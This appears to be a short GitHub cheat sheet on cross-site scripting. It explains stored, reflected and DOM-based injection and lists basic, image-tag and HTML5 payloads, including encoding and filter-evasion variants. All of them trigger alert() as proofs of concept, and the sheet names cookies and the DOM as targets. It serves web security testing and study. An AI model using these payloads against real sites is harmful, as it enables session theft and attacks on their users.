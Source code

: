 Cross Site Scripting
----------------------------

Types of XSS injections:

1)Stored - it is possible when a website or web application stores user input and later serves it to other users. An application is vulnerable if it does not validate user input before storing content and embedding it into HTML response pages.


2)Reflected - the attacker’s payload has to be a part of the request that is sent to the web server. It is then reflected back in such a way that the HTTP response includes the payload from the HTTP request. Attackers use malicious links, phishing emails, and other social engineering techniques to lure the victim into making a request to the server.


3)DOM base - It is possible if the web application’s client-side scripts write data provided by the user to the Document Object Model (DOM). The data is subsequently read from the DOM by the web application and outputted to the browser. If the data is incorrectly handled, an attacker can inject a payload, which will be stored as part of the DOM and executed when the data is read back from the DOM.

Basic payload:
```
';alert('xss inj');' 
<script>alert('xss inj')</script>
<sCrIpt>alert(1)</ScRipt>
<scr<script>ipt>alert('xss inj')</scr<script>ipt>
"><script>alert('xss inj')</script>
"><script>alert(String.fromCharCode(88,83,83))</script>
%3Cscript%3Ealert(%27xss%20inj%27)%3C%2Fscript%3E
%253Cscript%253Ealert(%2527xss%2520inj%2527)%253C%252Fscript%253E
#"><img src=/ onerror=alert(2)>
```

Image payload
```
<img src="javascript:alert('xss inj');">
<img """><script>alert("xss inj")</script>">
<img src= onmouseover="alert('xxs')">
<img src=x onerror="alert(String.fromCharCode(88,83,83))"></img>
<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>
```

HTML5 payload
```
<body onload=alert(/xss/.source)>
<select autofocus onfocus=alert('xss inj')>
<input autofocus onfocus=alert('xss inj')>
<textarea autofocus onfocus=alert('xss inj')>
```

What is available for manipulation:
1.Cookie  
2.DOM  
3.Connectivity  
4.Async JS requests   


References:
-------------------------------------
[Wikipedia](https://en.wikipedia.org/wiki/Cross-site_scripting)  
[Owasp](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS))
